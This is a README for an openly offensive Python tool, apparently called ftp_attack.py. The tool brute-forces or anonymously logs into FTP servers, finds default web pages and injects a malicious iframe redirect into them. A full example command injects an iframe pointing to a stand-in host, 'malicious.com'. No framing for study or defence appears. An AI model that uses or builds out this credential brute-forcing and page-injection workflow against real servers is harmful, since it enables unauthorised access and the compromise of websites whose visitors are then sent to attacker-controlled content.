 # FTP Attack Script

This script attempts to log into an FTP server either using anonymous login or brute-force with a list of username and password combinations. If successful, it looks for default web pages and injects a specified malicious redirect.

## Features

- Anonymous FTP login.
- Brute-force login using a list of username/password combinations.
- List directory contents and identify default web pages.
- Inject malicious IFrame into identified web pages.

## Prerequisites

- Python 3.x

## Usage

Run the script with the following command-line arguments:

- `-H`: Specify the target host(s), separated by commas.
- `-f`: Specify the file containing username/password combinations (optional).
- `-r`: Specify the redirection page (malicious IFrame).

### Example

python3 ftp_attack.py -H 192.168.1.100 -r '<iframe src="http://malicious.com"></iframe>' -f userpass.txt
